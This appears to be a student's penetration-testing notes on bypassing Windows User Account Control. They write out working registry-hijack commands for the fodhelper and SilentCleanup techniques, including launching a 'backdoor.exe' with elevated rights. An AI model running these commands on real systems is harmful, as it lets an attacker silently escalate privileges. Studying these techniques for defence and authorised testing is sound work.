



11- Bypass UAC
Intro
- User Account Control (UAC)
- forces application to run in an non administrative context until an admin authorizes elevated access
- goal:
- any application that wishes to perform an operation with a potential system-wide impact, cannot do so silently
- SCreens

- in command: integrity level

- Medium mandatory level
- net user admin pass
Bypass UAC
- mETHOD #1 in GUI powershell.exe Start-Process powershell.exe -Verb runAs
- // witch to a high integrity level even if we are logged in with an administrative user
- Mandatory Label\High Mandatory Level
- Method #2 in cmdline
- METHOD #3
UAC bypasses
- depend on the os
- example fodhelper buypass
- REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
- REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
- REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
- // run fodhelper.exe
- metasploit
Overview
- restricting permissions of the runing programs
- responsible for popus when programs want to do stuff on your system
- other features when:
- installing drivers
- defragmenting a hard drive
- other features of UAC
- virtualization of folders to prevent protected folders from getting corrupted
UAC bypass fodhelper
- situation : we are member of administrator group , however we do not have high privilges as of now => we need to bypass UAC
- Fodhelper is a auto-elevated executable, which is signed by Microsoft
- This executable is vulnerable to class hijacking, it can be used to spawn our executable with High integrity level. We need to hijack the default value at "HKCU\Software\Classes\ms-settings\shell\open\command”
- https://github.com/rootm0s/WinPwnage/blob/master/winpwnage/functions/uac/uacMethod2.py

- Command: Set-ItemProperty -Path"HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value$command -Force
- Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
UAC bypass: silent cleanup
- , we are going to use the SilentCleanup predefined scheduled task to bypassUAC. The task automatically runs with elevated privileges. When the task runs, it will executethe file %windir%\system32\cleanmgr.exe. The misconfiguration is that we can control theuser's environment variables i.e %windir% we can change it to execute a malicious executablethat would give us elevated privileges meterpreter session.
- Commands$
- New-ItemProperty "HKCU:\Environment" -Name "windir" -Value"C:\Users\Student\AppData\Local\Temp\backdoor.exe /k anybinary.exe" -PropertyTypeString -Force
- schtasks.exe /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I